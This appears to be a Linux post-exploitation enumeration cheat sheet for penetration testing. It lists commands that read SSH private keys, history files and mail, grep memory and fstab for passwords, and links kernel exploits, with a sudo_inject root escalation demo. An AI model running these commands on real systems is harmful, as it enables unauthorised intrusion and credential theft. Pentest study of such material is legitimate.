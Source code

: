 ```yaml
---
description: quick commands to enumerate the target system
---
```


# Enumeration

### system information <a id="first"></a>

#### What's the distribution type? What version?

#### `cat /etc/issue  cat /etc/*-release  cat /etc/lsb-release # Debian based  cat /etc/redhat-release # Redhat based`





#### What's the kernel version? Is it 64-bit?

#### `cat /proc/version  uname -a  uname -mrs  cat /proc/$$/status | grep "[UG]id"  rpm -q kernel  dmesg | grep Linux  ls /boot | grep vmlinuz-`





#### places to find kernel exploits:

[https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack)  
 [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)  
 [https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)  
 [https://github.com/bwbwbwbw/linux-exploit-binaries](https://github.com/bwbwbwbw/linux-exploit-binaries)



#### To extract all the vulnerable kernel versions from that web you can do:

#### `curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '`



#### Tools that could help searching for kernel exploits are:

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)  
 [https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)  
 [http://www.securitysift.com/download/linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py)



## sudo\_inject

#### this has requirements, does'nt work all the time:\(

#### clone the repository and run the script: [sudo\_inject](https://github.com/nongiach/sudo_inject)  requirements:

#### `$ sudo whatever  [sudo] password for user:  # Press+c since you don't have the password.  # This creates an invalid sudo tokens.  $ sh exploit.sh  .... wait 1 seconds  $ sudo -i # no password required :)  # id  uid=0(root) gid=0(root) groups=0(root)`



#### What can be learnt from the environmental variables?

#### `cat /etc/profile  cat /home/*/.bashrc | grep alias | grep -v "#"  cat /root/.bashrc | grep alias | grep -v "#"  cat ~/.bash_profile  cat ~/.bashrc  cat ~/.bash_logout  env  set`

#### in-memory password

#### `strings /dev/mem -n10 | grep -i PASS`

#### driver info

#### `lsmod  /sbin/modinfo [lib]  ls /dev 2>/dev/null | grep -i "sd"  cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null   #Check if credentials in fstab  grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`



#### available shells

#### `cat /etc/shells |grep "bin"|cut -d "/" -f3 2>/dev/null`

#### available programming languages

#### ``progr_dev=( "which perl" "which gcc" "which g++" "which python" "which php" "which cc" "which go" "which node") ;for programming_lang in "${progr_dev[@]}"; do pss=`$programming_lang |cut -d"/" -f4` ;if [ "$pss" ]; then echo -e "$pss" ;fi done``

####   check emails

#### `mail && ls -alh /var/mail/`    Is there a printer?

####  `lpstat -a`

####  What other users & hosts are communicating with the system? 

####  `lsof -i  lsof -i :80  grep 80 /etc/services  netstat -antup  netstat -antpx  netstat -tulpn  chkconfig --list  chkconfig --list | grep 3:on  last  w  cat /etc/sudoers`

####  How can files be uploaded? 

####  `find / -name wget  find / -name nc*  find / -name netcat*  find / -name tftp*  find / -name ftp`

## users and accounts

####   check for sudo access 

####  `sudo -l |grep vim  sudo -l |grep nmap  sudo -l |grep vi  sudo -l`

####  users UID and GID

####  `for user in $(cat /etc/passwd | cut -f1 -d":"); do id $user; done`

 

#### users with UID 0 \(root\) accounts

#### `cat /etc/passwd |cut -f1,3,4 -d":" |grep "0:0" |cut -f1 -d":"|awk '{print $1}'`

####  users readable history file 

####  `find /home/* -name *.*history* -print 2> /dev/null`

####  check history 

####  `cat ~/.bash_history  cat ~/.nano_history  cat ~/.atftp_history  cat ~/.mysql_history  cat ~/.php_history`   

####  user info 

####  `cat ~/.bashrc  cat ~/.profile  cat /var/mail/root  cat /var/spool/mail/root` 



## Possible defenses

  
 AppArmor

####  ``if [ `which aa-status 2>/dev/null` ]; then  aa-status  elif [ `which apparmor_status 2>/dev/null` ]; then  apparmor_status  elif [ `ls -d /etc/apparmor* 2>/dev/null` ]; then  ls -d /etc/apparmor*  else  echo "Not found AppArmor"  fi``   

 Grsecurity

####  `((uname -r | grep "\-grsec" >/dev/null 2>&1 || grep "grsecurity" /etc/sysctl.conf >/dev/null 2>&1) && echo "Yes" || echo "Not found grsecurity")`

  
  
  
 PaX

####  `(which paxctl-ng paxctl >/dev/null 2>&1 && echo "Yes" || echo "Not found PaX")`

  
  
  
 Execshield

####  `(grep "exec-shield" /etc/sysctl.conf || echo "Not found Execshield")`

  
  
  
 SElinux

####  `(sestatus 2>/dev/null || echo "Not found sestatus")`

  
  
  
 ASLR

####  `cat /proc/sys/kernel/randomize_va_space 2>/dev/null  #If 0, not enabled`



## network

####   What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?

####  `cat /etc/resolv.conf  cat /etc/sysconfig/network  cat /etc/networks  iptables -L  hostname  dnsdomainname`

####  network status 

####  `ss -anp  netstat -ano  /sbin/ifconfig -a  cat /etc/network/interfaces  cat /etc/sysconfig/network  arp -e  route  /sbin/route -nee`

####  Is packet sniffing possible? What can be seen? Listen to live traffic 

####  `tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21`

####  firewall rules 

####  `/etc/iptables  iptables -L  grep -Hs iptables /etc/*`

####  hosts and DNS

####  `cat /etc/hosts 2>/dev/null && cat /etc/resolv.conf 2>/dev/null && cat /etc/sysconfig/network 2>/dev/null && cat /etc/networks 2>/dev/null | uniq | srt | grep -v '#'`

####   ssh root login status

####  `cat /etc/ssh/sshd_config | grep PermitRootLogin | grep -v "#"`

####   ssh info

####  `cat ~/.ssh/identity.pub ~/.ssh/authorized_keys ~/.ssh/identity ~/.ssh/id_rsa.pub ~/.ssh/id_rsa ~/.ssh/id_dsa.pub ~/.ssh/id_dsa /etc/ssh/ssh_config /etc/ssh/sshd_config /etc/ssh/ssh_host_dsa_key.pub /etc/ssh/ssh_host_dsa_key /etc/ssh/ssh_host_rsa_key.pub /etc/ssh/ssh_host_rsa_key /etc/ssh/ssh_host_key.pub /etc/ssh/ssh_host_key 2>/dev/null`



















